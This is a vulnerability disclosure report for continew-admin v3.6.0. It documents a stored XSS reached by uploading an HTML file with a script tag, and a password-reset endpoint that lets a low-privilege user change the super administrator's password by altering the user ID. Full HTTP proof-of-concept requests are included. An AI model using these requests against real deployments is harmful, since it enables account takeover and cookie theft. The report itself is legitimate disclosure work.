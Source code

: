 BUG_Author

Longlong Gong

# Project

Address: [continew-admin](https://gitee.com/continew/continew-admin)

## 1、Stored cross-site scripting

###  1.1、`/dev-api/common/file` XSS-HTML

[Affected version]

v3.6.0



[Affected Component]

/dev-api/common/file



[Software]

https://gitee.com/continew/continew-admin/archive/refs/tags/v3.6.0.zip



[Description]

The continuous admin system v3.6.0 can upload HTML files when uploading files through the "/dev api/common/file" interface, causing storage XSS. Hackers can exploit this vulnerability to steal administrator cookies, conduct phishing attacks, and cause harm

POC

```
POST /dev-api/common/file HTTP/1.1
Host: 192.168.0.102:5173
Content-Length: 206
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjEsInJuU3RyIjoiWVlnMHRtREVIcWVlRUVSYUxIeEFQQXk2cUU5Snd3UXciLCJpcCI6IjA6MDowOjA6MDowOjA6MSIsImFkZHJlc3MiOiLlhoXnvZFJUCIsImJyb3dzZXIiOiJDaHJvbWUgMTM1LjAuMC4wIiwib3MiOiJXaW5kb3dzIDEwIiwibG9naW5UaW1lIjoxNzQ1OTc5OTUzfQ.vE2YecgyRq9CO98zBJtX0Klrqg-5P-gF1ngLMl9FYyI
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5qOjXMWh4FsI2Wkp
Origin: http://192.168.0.102:5173
Referer: http://192.168.0.102:5173/system/file
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_be968d539e394cf45975b5117965eb10=1745979934; HMACCOUNT=A206C719C9C02C2F; Hm_lpvt_be968d539e394cf45975b5117965eb10=1745979945
Connection: keep-alive

------WebKitFormBoundary5qOjXMWh4FsI2Wkp
Content-Disposition: form-data; name="file"; filename="xss.html"
Content-Type: text/html

<script>alert(1)</script>
------WebKitFormBoundary5qOjXMWh4FsI2Wkp--

```

Go to System Management ->File Management ->Upload, upload xsspayload in HTML format

![image-20250430110819252](assets/image-20250430110819252.png)

Obtain the return path

![image-20250430110928083](assets/image-20250430110928083.png)

Accessing can reveal the composition of storage XSS

![image-20250430110959248](assets/image-20250430110959248.png)

## 2、Logical loopholes

###  2.1、`/dev-api/system/user/1/password` Only assigning password reset permission can reset the super administrator password

[Affected version]

v3.6.0



[Affected Component]

/dev-api/system/user/1/password



[Software]

https://gitee.com/continew/continew-admin/archive/refs/tags/v3.6.0.zip



[Description]

The continue admin system v3.6.0 can reset the super administrator password through the "/dev api/system/user/1/password" interface to control the entire website

POC

```
PATCH /dev-api/system/user/1/password HTTP/1.1
Host: 192.168.0.102:5173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjU0Nzg4OTI5Mzk2ODgwMTgyMiwicm5TdHIiOiJhNURzcHptdGdqYUxHNFlQQXh5ckRNbFlGMnFmQmxGdCIsImlwIjoiMDowOjA6MDowOjA6MDoxIiwiYWRkcmVzcyI6IuWGhee9kUlQIiwiYnJvd3NlciI6IkZpcmVmb3ggMTM4LjAiLCJvcyI6IldpbmRvd3MgMTAiLCJsb2dpblRpbWUiOjE3NDU5ODQwMzJ9.XB3lVAbbWCaVMr2w7cNSTZ5V6CJVTflI6ad8yYdFCj8
Content-Length: 106
Origin: http://192.168.0.102:5173
Connection: keep-alive
Referer: http://192.168.0.102:5173/system/user
Cookie: Hm_lvt_be968d539e394cf45975b5117965eb10=1745983968; Hm_lpvt_be968d539e394cf45975b5117965eb10=1745983968; HMACCOUNT=CC4CA866A8DF457A
Priority: u=0

{"newPassword":"c4jYYXlQYZdamxR0k6rO3sML/geGIG6YX3u+TMydQvR9PhtOvAahznoV6VcPkRyMKwP1VbF8JeLx2+1cg0Kisg=="}
```

Firstly, assign the function of resetting passwords to testers

![image-20250430114433377](assets/image-20250430114433377.png)

Log in to the tester account and choose to reset your password

![image-20250430114535866](assets/image-20250430114535866.png)

The data packet is as follows

![image-20250430114624015](assets/image-20250430114624015.png)

By changing the user's own ID to 1, which is the super administrator's ID, the administrator password can be successfully changed

![image-20250430114711751](assets/image-20250430114711751.png)
